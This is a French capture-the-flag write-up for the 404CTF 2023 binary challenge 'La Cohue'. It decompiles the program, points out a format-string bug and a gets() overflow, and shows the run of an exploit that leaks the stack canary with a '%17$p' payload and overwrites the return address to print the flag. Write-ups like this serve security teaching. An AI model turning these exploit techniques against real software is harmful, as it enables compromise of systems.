

# La Cohue



Le fichier fourni : [la_cohue](la_cohue)

Ce fichier est un binaire 64 bits :

```bash
$ file la_cohue
la_cohue: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=56ad00dfd261c3bad8d131b25708d9c7e861ccda, not stripped
```

il faut trouver le canari :

```bash
$ ./la_cohue
Que faites-vous ?

1 : Aller voir Francis
2 : Réfléchir à un moyen de capturer le canari
3 : Vaquer à vos occupations
>>> 1

[Francis] : Avez-vous trouvé un moyen de capturer mon canari ? J'espère que j'ai eu raison de compter sur vous.
[Vous] : je ne sais pas
[Francis] : Je vous laisse mettre votre plan à éxécution.

Que faites-vous ?

1 : Aller voir Francis
2 : Réfléchir à un moyen de capturer le canari
3 : Vaquer à vos occupations
>>> 2
Que faire ?
[Vous] : Que faire ?

Que faites-vous ?

1 : Aller voir Francis
2 : Réfléchir à un moyen de capturer le canari
3 : Vaquer à vos occupations
>>> 3
```

On décompile le binaire avec Ghidra.

La fonction `main` est quasi vide :

```c
undefined8 main(void)
{
  setvbuf(stdout,(char *)0x0,2,0);
  choices();
  return 0;
}
```

Seul un appel à la fonction `choice` est réalisé :

```c
void choices(void)
{
  bool bVar1;
  bool bVar2;
  int iVar3;
  long in_FS_OFFSET;
  int local_5c;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  local_5c = 0;
  bVar1 = false;
  bVar2 = false;
  while( true ) {
    while( true ) {
      do {
        puts("Que faites-vous ?");
        puts("\n1 : Aller voir Francis");
        puts(&DAT_00400c18);
        puts(&DAT_00400c4a);
        printf(">>> ");
        fflush(stdout);
        iVar3 = __isoc99_scanf(&DAT_00400c6d,&local_5c);
        if (iVar3 != 1) {
                    /* WARNING: Subroutine does not return */
          exit(0);
        }
      } while ((local_5c < 1) || (6 < local_5c));
      if (local_5c != 2) break;
      if (bVar2) {
        puts(&DAT_00400d90);
      }
      else {
        fgets(local_58,0x40,stdin);
        fgets(local_58,0x40,stdin);
        printf("[Vous] : ");
        printf(local_58);
        puts("");
        bVar2 = true;
      }
    }
    if (local_5c == 3) break;
    if (local_5c == 1) {
      if (bVar1) {
        puts(
            "\n[Francis] : Je crains que je ne puisse plus compter sur vous pour m\'aider, malheureu sement.\n"
            );
      }
      else {
        puts(&DAT_00400cd0);
        printf("[Vous] : ");
        fgets(local_58,0x40,stdin);
        gets(local_58);
        puts(&DAT_00400d50);
        bVar1 = true;
      }
    }
  }
  if (local_10 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_chk_fail();
}
```

On remarque plusieurs vulnérabilités potentielles.

Sur le choix 2, le `printf(local_58)` peut être utilisé pour mener une attaque de type *format string*

Sur le choix 1, le `gets(local_58)` peut être utilisé pour effectuer une *buffer overflow*

----

Par ailleurs, la fonction `canary` permet de récupérer le flag :

```c
void canary(void)
{
  FILE *__stream;
  long in_FS_OFFSET;
  char local_58 [72];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  puts(&DAT_00400b98);
  __stream = fopen("flag.txt","r");
  fgets(local_58,0x48,__stream);
  puts(local_58);
  fclose(__stream);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```

Il faut donc trouver un moyen de l'appeler.

----

La stratégie va consister à modifier l'adresse de retour de `choice` (qui est légitimement en `0x00400b06`), par celle pointant vers `canary` (i.e. `0x00400877`)

Pour nous compliquer la tâche, il y a des protections *canary* : un simple buffer overflow sera détecté et arrêtera alors l'exécution du binaire.

On va donc commencer par utiliser la faille du choix 2, pour extraire les données relatives au *canary*.

On pourra alors s'en servir pour constituer un message qui va bien, exploitant le *buffer overflow* pour modifier l'adresse de retour de la fonction `choice`, sans déclencher l'alarme du *canary*.

Cette stratégie est implémentée dans le script [`cohue-solution.py`](cohue-solution.py) :

```bash
$ python3 cohue-solution.py REMOTE
[*] '/mnt/c/Users/pbaye/Downloads/404CTF_2023/la_cohue'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to challenges.404ctf.fr on port 30223: Done
#----------------------------------------------------------------
# Etape 1 : choix 2 > Réfléchir à un moyen de capturer le canari
#----------------------------------------------------------------
Que faites-vous ?

1 : Aller voir Francis
2 : Réfléchir à un moyen de capturer le canari
3 : Vaquer à vos occupations
>>>

message envoyé : b'%17$p.%18$p.%19$p'
message récupéré : [Vous] : 0x7b9c21b97477de00.0x7ffff5ef8360.0x400b06
pointers=['0x7b9c21b97477de00', '0x7ffff5ef8360', '0x400b06']

#----------------------------------------------------------------
# Etape 2 : choix 1 > Aller voir Francis
#----------------------------------------------------------------

Que faites-vous ?

1 : Aller voir Francis
2 : Réfléchir à un moyen de capturer le canari
3 : Vaquer à vos occupations
>>>

message envoyé : b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x00\xdewt\xb9!\x9c{`\x83\xef\xf5\xff\x7f\x00\x00w\x08@\x00\x00\x00\x00\x00'

[Francis] : Avez-vous trouvé un moyen de capturer mon canari ? J'espère que j'ai eu raison de compter sur vous.
[Vous] :

#----------------------------------------------------------------
# Etape 3 : choix 3 > Vaquer à vos occupations
#----------------------------------------------------------------
[Francis] : Je vous laisse mettre votre plan à éxécution.

Que faites-vous ?

1 : Aller voir Francis
2 : Réfléchir à un moyen de capturer le canari
3 : Vaquer à vos occupations
>>>
[+] Receiving all data: Done (133B)
[*] Closed connection to challenges.404ctf.fr port 30223
Je vous suis infiniment reconnaissant d'avoir retrouvé mon canari.
404CTF{135_C4N4r15_41M3N7_14_C0MP46N13_N3_135_141553Z_P45_53U15}
ubuntu@ITEM-S96165:/mnt/c/Users/pbaye/Downloads/404CTF_2023
```
